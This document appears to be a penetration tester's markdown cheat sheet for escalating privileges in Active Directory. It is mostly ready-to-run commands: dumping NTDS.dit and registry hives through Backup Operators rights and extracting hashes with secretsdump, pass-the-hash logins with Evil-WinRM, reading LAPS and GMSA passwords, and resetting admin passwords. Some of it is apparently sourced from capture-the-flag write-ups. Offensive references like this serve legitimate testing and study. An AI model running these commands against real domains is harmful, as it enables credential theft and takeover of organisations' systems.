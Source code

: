 # Privileged groups
## AD Recycle Bin
A user in the group is allowed to read / recover deleted AD objects.
```powershell
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

## AD support accounts
Often we have the credentials of limited administrative accounts such as `IT`, `helpdesk` or `support`. Sometimes, These accounts have an ability to reset the passwords.     
*Note that the wording of the account name might be different, but related to aforementioned privileges*

### RPC password reset
[https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html#reset-ad-user-password](https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html#reset-ad-user-password)

```bash
setuserinfo2 <user> 23 <password>
```

## AD Backup Operators
Members of the Backup Operators group can back up and restore all files on a computer, regardless of the permissions that protect those files

```powershell
# Import libraries
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

# Enable SeBackupPrivilege
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

### Get hashes from .dit file
```bash
# REMOTE

## Download .dit file (assuming evil-winrm is used)
download <database_file>

## Get system HIVE
reg.exe save hklm\system <destination>

# LOCAL (after file downloads)
secretsdump.py -system <system_hive> -ntds <database_file> LOCAL
```

### Scripts needed
- [https://github.com/k4sth4/SeBackupPrivilege](https://github.com/k4sth4/SeBackupPrivilege)



# BloodHound
This is used to visualise AD environments and discover attack paths.

## Ingestors
### SharpHound
Data collector for BloodHound
[https://github.com/BloodHoundAD/SharpHound](https://github.com/BloodHoundAD/SharpHound)

### bloodhound.py
Python based data collection tool for BloodHound     
This will run against the domain, so can one run it from a remote machine.
```bash
bloodhound-python -u <username> -p <password> -d <domain> -c All -ns <nameserver>                
```
[https://github.com/fox-it/BloodHound.py](https://github.com/fox-it/BloodHound.py)


## Useful info
- [https://bloodhound.readthedocs.io/en/latest/index.html](https://bloodhound.readthedocs.io/en/latest/index.html)
- [https://github.com/fox-it/BloodHound.py](https://github.com/fox-it/BloodHound.py)
- [https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)



# Evil-WinRM
Allows remote login to WinRM, if credentials are known.

## Usage
```bash
# With password
evil-winrm -i <ip> -u <user> -p <password>

# With Pass The Hash (NTLM)
evil-winrm -i <ip> -u <user> -H <hash>

# With private key and cert
evil-winrm -i <ip> -S -k <private_key> -c <certificate>
```



# LAPS
LAPS allows you to manage the local Administrator password (which is randomised, unique, and changed regularly) on domain-joined computers. These passwords are centrally stored in Active Directory and restricted to authorised users using ACLs. Passwords are protected in transit from the client to the server using Kerberos v5 and AES       

When using LAPS, 2 new attributes appear in the computer objects of the domain: ms-mcs-AdmPwd and ms-mcs-AdmPwdExpirationTime. These attributes contains the plain-text admin password and the expiration time. Then, in a domain environment, it could be interesting to check which users can read these attributes.

## Commands
```powershell
# Check if LAPS is activated
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"

# Get commands available
Get-Command *AdmPwd*

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```

## Dumping credentials via crackmapexec
```bash
# LDAP
crackmapexec ldap <ip> -u <user> -p <password> -d <domain> -M laps

# SMB
crackmapexec smb <ip> -u <user> -p <password> --laps
```




# GMSA and ReadGMSAPassword
Group Managed Service Accounts (GMSA) are where Windows servers manage the password for an account by generating a long random password for it.

## Get password
This solution is taken from: [https://0xdf.gitlab.io/2022/04/30/htb-search.html#get-password](https://0xdf.gitlab.io/2022/04/30/htb-search.html#get-password)
```powershell
# Get the password
$gmsa = Get-ADServiceAccount -Identity <user> -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
ConvertFrom-ADManagedPasswordBlob $mp

# Save the password to variables
(ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword


# !!!!
# Reset password of admin if the compromised user has GenericAll permissions
$cred = New-Object System.Management.Automation.PSCredential <user>, $SecPass
Invoke-Command -ComputerName 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity <admin_user> -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'PASSWORD' -force)} -Credential $cred
```